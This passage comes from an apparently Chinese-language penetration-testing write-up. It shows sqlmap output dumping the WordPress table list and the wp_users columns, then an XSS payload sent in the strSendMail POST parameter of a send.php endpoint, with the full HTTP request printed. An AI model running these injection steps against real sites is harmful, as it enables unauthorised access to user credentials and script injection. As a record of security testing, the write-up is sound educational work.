 ```
| wp_term_relationships |
| wp_term_taxonomy |
| wp_termmeta |
| wp_terms |
| wp_usermeta |
| wp_users |
+ — — — — — — — — — — — — -+Then:Table: wp_users
[10 columns]
+ — — — — — — — — — — -+ — — — — — — — — — — -+
| Column | Type |
+ — — — — — — — — — — -+ — — — — — — — — — — -+
| display_name | varchar(250) |
| ID | bigint(20) unsigned |
| user_activation_key | varchar(255) |
| user_email | varchar(100) |
| user_login | varchar(60) |
| user_nicename | varchar(50) |
| user_pass | varchar(255) |
| user_registered | datetime |
| user_status | int(11) |
| user_url | varchar(100) |
+ — — — — — — — — — — -+ — — — — — — — — — — -+
```

SQLmap的扫描结果截图：

[![](https://p4.ssl.qhimg.com/t013a77ae6b578d55ac.png)](https://p4.ssl.qhimg.com/t013a77ae6b578d55ac.png)

<br>

**XSS（跨站脚本漏洞）**

****

接下来的任务就是要测试一下该网站的其他节点，看看是不是还存在其他的一些安全漏洞。不一会儿，我便发现了一个节点：

```
goodwebsite.com/register-login/send.php
```

这个节点接受POST请求，并且还有一个参数“strSendMail=”

于是我按照之前的方法对这个节点进行了一次相同的SQL注入漏洞测试，测试结果（服务器端返回的错误信息）也与之前的一样。但是我在这里准备尝试使用XSS Payload，看看能有什么效果。我使用的XSS Payload如下所示：

```
e’%22()%26%25&lt;acx&gt;&lt;ScRiPt%20&gt;prompt(/khizer/)&lt;/ScRiPt&gt;
```

请求信息如下所示：



```
POST /register-login/send.php HTTP/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Referer: http://goodwebsite.com/
Cookie: bmslogin=no; bmsid=f3011db015dca9a4f2377cd4e864f724
Host: goodwebsite.com
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*strSendMail=e’%22()%26%25&lt;acx&gt;&lt;ScRiPt%20&gt;prompt(/khizer/)&lt;/ScRiPt&gt;
```
